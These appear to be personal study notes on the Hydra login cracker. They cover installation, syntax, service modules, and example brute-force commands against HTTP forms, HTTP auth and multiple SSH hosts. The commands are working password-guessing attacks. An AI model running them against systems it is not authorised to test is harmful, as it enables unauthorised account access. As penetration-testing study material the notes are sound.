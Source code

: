 Hydra is a fast network login cracker that supports numerous attack protocols. It is a versatile tool that can brute-force a wide range of services, including web applications HTTP,  SSH and FTP, and even databases.
```shell-session
$ sudo apt-get -y update
 sudo apt-get -y install hydra 
```

```shell-session
hydra [login_options] [password_options] [attack_options] [service_options]
```

![](Pasted%20image%2020250618202043.png)
# Basic HTTP Authentication
```http
Authorization: Basic YWxpY2U6c2VjcmV0MTIz

<http-get />
```

## Hydra Services

Hydra services essentially define the specific protocols or services that Hydra can target. They enable Hydra to interact with different authentication mechanisms used by various systems, applications, and network services.

Each module is designed to understand a particular protocol's communication patterns and authentication requirements, allowing Hydra to send appropriate login requests and interpret the responses. Below is a table of commonly used services:

|               |                   |                                                                                                   |                                                                                                             |
| ------------- | ----------------- | ------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| http-get/post | HTTP Web Services | Used to brute-force login credentials for HTTP web login forms using either GET or POST requests. | `hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorre` |
|               |                   |                                                                                                   |                                                                                                             |

and for the rest its just `<protocol>://IP`

![](Pasted%20image%2020250618202452.png)

# brute http
```shell-session
$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```
This command instructs Hydra to:

- Use the list of usernames from the `usernames.txt` file.
- Use the list of passwords from the `passwords.txt` file.
- Target the website `www.example.com`.
- Employ the `http-get` module to test the HTTP authentication.

### Targeting Multiple SSH Servers
```shell-session
$ hydra -l root -p toor -M targets.txt ssh

# This command instructs Hydra to:

- Use the username "root".
- Use the password "toor".
- Target all IP addresses listed in the `targets.txt` file.
- Employ the `ssh` module for the attack.

Hydra will execute parallel brute-force attempts on each server, significantly speeding up the process.
```